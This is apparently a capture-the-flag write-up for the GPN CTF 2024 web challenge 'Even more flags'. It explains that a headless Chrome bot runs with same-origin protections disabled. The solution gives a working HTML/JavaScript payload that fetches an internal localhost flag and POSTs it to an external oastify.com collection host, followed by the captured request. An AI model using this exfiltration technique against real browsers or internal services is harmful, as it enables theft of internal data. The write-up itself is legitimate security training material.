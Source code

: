 ```yaml
---
ctf-event: GPN CTF 2024
date: 2024-06-01
ctf-team: luxeria
ctf-task: Even more flags
ctf-category: web
ctf-difficulty: 
---
```

# Even more flags

## Description

> I heard you like flags, so I launched Chrome with a lot of flags again so you can get your flag!
>
> This time the flag is `localhost:1337/flag`, and the bot will visit your URL!

## Analysis

Similar challenge as [So many flags](So%20many%20flags.md), but this time, the flag is served on http://localhost:1337/flag and an URL instead of a file can be provided to the server which will then be opened by a Chrome browser:
![](_attachments/Pasted%20image%2020240601210142.png)

Google Chrome is started with numerous flags and the provided URL:
```js
const command = `bash -c "google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run ${flags}     ${url}"`;

```

The following flags are included, which disable the same origin policy:
```text
--disable-web-security -–allow-file-access-from-files --allow-file-access --allow-cross-origin-auth-prompt --user-data-dir
```

It's therefore possible to read files from other origins.

## Solution

Store the following HTML file on a server and provide the URL to the application:
```html
<script>
  async function getFlag(){
    response = await fetch("http://localhost:1337/flag");
    flag = await response.text();
    fetch("https://lk922ygynkim4zy48onzs2xaw12sqnec.oastify.com/", { method: "POST", body: flag})
  };
  getFlag();
</script>
```

The server will read the flag and send it to the external system:
```http
POST / HTTP/1.1
Host: lk922ygynkim4zy48onzs2xaw12sqnec.oastify.com
[...]

GPNCTF{WHY_D0_50M3_0F_TH353_FL4G5_3V3N_3X15T}
```